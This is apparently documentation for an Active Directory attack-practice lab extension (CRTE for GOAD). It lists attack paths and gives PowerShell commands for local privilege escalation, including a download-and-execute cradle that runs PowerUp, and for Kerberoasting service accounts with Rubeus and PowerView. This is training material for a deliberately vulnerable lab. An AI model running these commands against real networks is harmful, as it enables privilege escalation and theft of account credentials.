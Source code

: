 # CRTE Extension for GOAD - Attack Paths Documentation

This document outlines the attack paths and scenarios implemented by the CRTE extension for GOAD. Each attack path is designed to help you practice specific techniques covered in the CRTE certification.

## Overview of Attack Paths

The CRTE extension implements the following attack paths:

1. **Local Privilege Escalation**
2. **Kerberos Attacks**
3. **Lateral Movement Techniques**
4. **Domain Privilege Escalation**
5. **Cross-Forest Attacks**
6. **Persistence Mechanisms**
7. **Azure AD Integration Attacks**
8. **SQL Server Link Attacks**
9. **Exchange Server Attacks**

## Detailed Attack Paths

### 1. Local Privilege Escalation

#### Misconfigured Service Attack
- **Target**: Web server in north.kingandqueen.local (equivalent to us-web in us.techcorp.local)
- **Initial Access**: Log in as regular_user
- **Attack Technique**: Use PowerUp.ps1 to identify and exploit services with weak permissions
- **Commands**:
  ```powershell
  # Download and run PowerUp
  IEX (New-Object Net.WebClient).DownloadString('http://192.168.56.100/PowerUp.ps1')
  Invoke-AllChecks
  
  # Exploit the vulnerable service
  Invoke-ServiceAbuse -Name "VulnService"
  ```

### 2. Kerberos Attacks

#### Kerberoasting
- **Target**: svc_sql in kingandqueen.local, svc_exchange in north.kingandqueen.local
- **Initial Access**: Any domain user account
- **Attack Technique**: Request service tickets and crack them offline
- **Commands**:
  ```powershell
  # Using Rubeus
  Rubeus.exe kerberoast /user:svc_sql /domain:kingandqueen.local /outfile:hashes.txt
  
  # Using PowerView
  Import-Module .\PowerView.ps1
  Request-SPNTicket -SPN "MSSQLSvc/sql.kingandqueen.local:1433"
  ```
